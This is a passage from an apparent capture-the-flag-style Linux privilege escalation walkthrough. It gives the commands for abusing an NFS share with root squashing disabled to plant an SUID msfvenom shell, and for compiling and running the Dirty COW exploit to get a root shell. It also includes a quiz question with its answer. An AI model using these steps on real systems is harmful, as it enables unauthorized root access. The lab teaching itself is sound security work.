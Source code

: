 Files created via `NFS` inherit the remote user's ID. If the user is `root`, and root squashing is enabled, the ID 
will instead be set to the `nobody` user.

Check the `NFS` share configuration on the Debian VM:

    cat /etc/exports

Note that the `/tmp` share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:

    sudo su

Using Kali's `root` user, create a mount point on your Kali box and mount the `/tmp `share (update the IP accordingly):

    mkdir /tmp/nfs
    mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's `root` user, generate a payload using `msfvenom` and save it to the mounted share (this payload 
simply calls `/bin/bash`):

    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's `root` user, make the file executable and set the `SUID` permission:

    chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

    /tmp/shell.elf

Exit out of the root shell before continuing!

### Questions

**What is the name of the option that disables root squashing?**

Answer: `no_root_squash`

## Kernel exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.
R
un the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at 
`/home/user/tools/kernel-exploits/dirtycow/c0w.c`. It replaces the SUID file `/usr/bin/passwd` with one that spawns 
a shell (a backup of `/usr/bin/passwd` is made at `/tmp/bak`).

Compile the code and run it (note that it may take several minutes to complete):

    gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
    ./c0w

Once the exploit completes, run `/usr/bin/passwd` to gain a root shell:

    /usr/bin/passwd

Restore the original `/usr/bin/passwd` file and exit the root shell before continuing!

    mv /tmp/bak /usr/bin/passwd
    exit
